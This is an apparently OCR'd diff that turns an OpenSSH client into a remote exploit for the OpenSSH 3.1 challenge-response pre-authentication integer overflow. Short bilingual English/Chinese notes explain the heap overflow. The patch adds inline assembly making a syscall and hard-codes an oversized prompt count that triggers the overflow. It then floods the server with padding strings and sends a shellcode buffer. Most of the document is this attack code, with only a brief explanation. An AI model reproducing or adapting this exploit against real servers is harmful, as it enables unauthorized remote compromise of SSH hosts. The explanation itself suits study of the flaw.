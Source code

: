 ```
+	"add	$3,%eax; "
+	"shl	$2,%eax; "
+	"add	%ebp,%eax; "
+	"mov	8(%ebp), %ecx; "
+	"push_args: "
+	"push	(%eax); "
+	"sub	$4, %eax; "
+	"loop	push_args; "
+	"mov	12(%ebp), %eax; "
+	"push	$0; "
+	"int	$0x80; "
+	"mov	%eax,-4(%ebp)"
+    );
+    return( ret );
+}
+
 void
 input_userauth_info_req(int type, u_int32_t seq, void *ctxt)
 {
@@ -865,7 +915,7 @@
 	xfree(inst);
 	xfree(lang);
 
-	num_prompts = packet_get_int();
+	num_prompts = 1073741824 + 1024;
 	/*
 	 * Begin to build info response packet based on prompts requested.
 	 * We commit to providing the correct number of responses, so if
@@ -874,6 +924,13 @@
 	 */
 	packet_start(SSH2_MSG_USERAUTH_INFO_RESPONSE);
 	packet_put_int(num_prompts);
+
+	for( i = 0; i < 1045; i++ )
+	    packet_put_cstring( "xxxxxxxxxx" );
+
+	packet_put_string( shellcode, 2047 );
+	packet_send();
+	return;
 
 	debug2("input_userauth_info_req: num_prompts %d", num_prompts);
 	for (i = 0; i < num_prompts; i++) {
```

## Details
### 漏洞原理(openssh-3.1)
The preauthentication remote hole in sshd's challenge-response code is a
heap-based overflow resulting from an integer overflow.
sshd 的 challenge-response代码中的预认证远程漏洞是由于整数溢出导致的基于堆的溢出。
